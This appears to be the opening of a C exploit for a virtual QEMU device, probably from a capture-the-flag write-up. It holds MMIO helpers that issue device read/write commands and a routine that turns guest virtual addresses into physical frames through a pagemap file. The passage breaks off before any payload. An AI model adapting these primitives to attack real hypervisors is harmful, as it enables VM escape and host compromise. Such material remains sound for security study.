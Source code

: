 ````c

void set_list_cnt(uint64_t cnt){
    mmio_write(0x10, cnt);
}

void set_src(uint64_t src){
    mmio_write(0x8, src);
}

void set_cmd(uint64_t cmd){
    mmio_write(0x18, cmd);
}

void set_read(uint64_t cnt){
    set_src(phy_userbuf);
    set_list_cnt(cnt);

    set_cmd(0x4);
    sleep(1);
}

void set_write(uint64_t cnt){
    set_src(phy_userbuf);
    set_list_cnt(cnt);

    set_cmd(0x2);
    sleep(1);
}

void set_read_write(uint64_t cnt){
    set_src(phy_userbuf);
    set_list_cnt(cnt);

    set_cmd(0x1);
    sleep(1);
}

#define PAGE_SHIFT 12
#define PAGE_SIZE (1 << PAGE_SHIFT)
#define PFN_PRESENT (1ull << 63)
#define PFN_PFN ((1ull << 55) - 1)
int fd;
uint32_t page_offset(uint32_t addr)
{
    return addr & ((1 << PAGE_SHIFT) - 1);
}

uint64_t gva_to_gfn(void *addr)
{
    uint64_t pme, gfn;
    size_t offset;
    offset = ((uintptr_t)addr >> 9) & ~7;
    // ((uintptr_t)addr >> 12)<<3
    lseek(fd, offset, SEEK_SET);
    read(fd, &pme, 8);
    if (!(pme & PFN_PRESENT))
        return -1;
    gfn = pme & PFN_PFN;
    return gfn;
}

/*
* transfer visual address to physic address
````